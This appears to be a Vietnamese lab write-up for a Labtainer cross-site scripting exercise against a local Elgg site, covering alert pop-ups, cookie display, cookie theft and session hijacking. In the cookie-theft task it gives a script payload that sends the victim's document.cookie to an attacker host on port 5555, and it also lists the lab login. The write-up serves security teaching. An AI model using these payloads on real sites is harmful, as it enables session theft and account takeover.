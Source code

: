 # Tấn công Cross Site Scripting vào máy chủ web

- Chạy lệnh: labtainer xsitetrong terminal của Labtainer
  
  ![image](https://github.com/user-attachments/assets/20b92a0d-37bc-4430-9df8-f5046b869a44)

- Chương trình sẽ hiển thị 3 terminal bao gồm “vuln-site”, “victim”, “attacker”.

  ![image](https://github.com/user-attachments/assets/a7d288d1-6afe-4995-995a-927b8e604705)


- Gõ lệnh: sudo systemctl restart httpd
- Đồng thời trình duyệt Firefox sẽ tự động khởi chạy trong vài giây.
  
  ![image](https://github.com/user-attachments/assets/e23e1bb5-db1c-4182-8ab5-854e8a5871b4)

- Open terminal victim gõ lệnh:
- firefox http://www.xsslabelgg.com

  ![image](https://github.com/user-attachments/assets/26725d2d-ad9d-4ebe-86e5-466df225ec56)

## Task 1: Sử dụng mã độc hại hiện thị cửa sổ cảnh báo
- Mục tiêu của nhiệm vụ này là nhúng một chương trình JavaScript vào profile Elgg của bạn, sao cho khi một người dùng khác xem hồ sơ của bạn, chương trình Javascript sẽ được thực thi và một cảnh báo được hiện thị. 

- Đăng nhập vào hệ thống bằng tài khoản `samy` với mật khẩu là `seedsamy`

  ![image](https://github.com/user-attachments/assets/3562a588-fb53-404e-adbe-4d3765807d5c)

- Vào mục More trên thanh taskbar - chọn member-chọn edit profile.
- Chương trình Javascript như sau:
  ```
  <script>alert('XSS');</script>
  ```
  ![image](https://github.com/user-attachments/assets/d74c305e-bdb4-4432-88fa-cb8af996c71f)


## Task 2: Sử dụng mã độc hại hiện thị Cookies trên cửa sổ cảnh báo
- Mục tiêu nhiệm vụ này tương tự task1 nhưng chúng ta sẽ hiện thị cookie người dùng.
- Chương trình Javascript như sau:
  
    ```
    <script>alert(document.cookie);</script>
    ```

    ![image](https://github.com/user-attachments/assets/4576fd65-c6ce-40e5-9259-33bc8dd2ba6f)

## Task 3: Ăn cắp Cookies từ máy của nạn nhân
- Trong nhiệm vụ này, kẻ tấn công tạo một mã Javascript gửi cookie người dùng về cho kẻ tấn công, mã Javascript sẽ gửi một HTTP request với cookie nạn nhân.
  ```
   <script>document.write('<img src=http://attacker_IP_address:5555?c='+ escape(document.cookie) + '>');</script>
  ```
- Khi Javascript chèn thẻ img vào, trình duyệt sẽ cố tải hình ảnh từ url điều này sẽ gửi một request cho kẻ tân công. Javascript đưa ra dưới đây sẽ gửi cookie đến cổng 5555 của máy kẻ tấn công, máy chủ kẻ tấn công sẽ in ra những gì nó nhận được. Máy chủ TCP nằm trong thư mục echoserver.
  
- Open terminal acttacker, vào thư mục run `./echoserv 5555` và chúng ta sẽ lắng nghe request của trình duyệt gửi cookie về cho kẻ tấn công.
  ```
  <script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + '>');</script>
  ```
  ![image](https://github.com/user-attachments/assets/ea46dd42-2e13-4dd7-b08a-d141b6aa85a1)

## Task 4: Session Hijacking sử dụng cookie bị đánh cắp
- Sau khi đánh cắp cookie của nạn nhân, kẻ tấn công có thể làm bất cứ điều gì nạn nhân có thể làm với web Elgg, bao gồm thêm và xóa bạn bè của nạn nhân. Trong nhiệm vụ này, chúng tôi sẽ khởi chạy cuộc tấn công chiếm quyền điều khiển session.

- Để thêm một người bạn cho nạn nhân, chúng ta sẽ tìm hiểu cách một người dùng hợp pháp thêm một người bạn trong Elgg. Chúng ta cần tìm những gì có trong request gửi đến máy chủ khi người dùng thêm một người bạn. Web Developer / Network tool sẽ cho chúng ta biết những request từ trình duyệt gửi đến máy chủ. Từ nội dung, chúng tôi có thể xác định được tất cả các tham số trong request. 
- Máy chủ Elgg không thể phân biệt xem yêu cầu có phải được gửi bởi trình duyệt nạn nhân hoặc bởi chương trình Java của kẻ tấn công. Miễn sao trong request của kẻ tấn công có đầy đủ tham số như sesion cookie. Để đơn giản hóa nhiệm vụ, thư mục HTTPSimpleForge trên máy tính của kẻ tấn công chứa một mẫu chương trình Java thực hiện. 
    - Note 1: Elgg sử dụng hai tham số __elgg_ts và __elgg_token là biện pháp đối phó CSRF(Cross Site Request Forgery). Đảm bảo rằng bạn đặt các tham số này chính xác cho cuộc tấn công của mình để thành công. 
    - Note 2: Compile và run chương trình Java:
      - javac HTTPSimpleForge.java
      - java HTTPSimpleForge
- Kiểm tra request kết bạn
  
![image](https://github.com/user-attachments/assets/01081210-1a14-4e0b-85de-9fcf42b0c5de)
  
![image](https://github.com/user-attachments/assets/1d9b8546-7ee5-4427-9a41-a70a0a87ca33)

![image](https://github.com/user-attachments/assets/f63e7e71-79ec-4036-bf13-40bd52c2d932)

## Checkwork

![image](https://github.com/user-attachments/assets/404d4fb6-bd62-4ded-8805-c4112480d8fc)

![image](https://github.com/user-attachments/assets/6bd61dfa-3264-4b76-9b76-04376e383bac)
